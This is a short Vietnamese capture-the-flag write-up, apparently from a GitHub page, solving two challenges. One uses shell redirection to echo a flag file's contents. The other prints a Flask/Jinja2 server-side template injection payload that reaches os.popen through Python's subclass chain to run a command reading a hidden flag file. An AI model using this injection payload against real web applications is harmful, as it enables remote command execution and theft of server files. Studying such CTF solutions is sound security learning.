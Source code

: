 # Misc 
  ## 1.Dodge
   Dùng echo để xem nội dung của file flag.txt : **echo$(<flag.txt)**
   
   <img src="https://i.imgur.com/Uklgpej.png" />
   
# Web
  ## 2.Nothingness
  
  Do web được viết từ Flask nên có thể inject được payload sau để xe flag được giấu trong flag_HKOOS2lrdD.txt
  
  Payload :
  
  {{"".__class__.__mro__[1].__subclasses__()[186].__init__.__globals__["__builtins__"]["__import__"]("os").popen("cat ../flag_HKOOS2lrdD flag_HKOOS2lrdD").read()}}
  
  Flag của bài :
  
  <img src="https://i.imgur.com/wqdA38j.png" />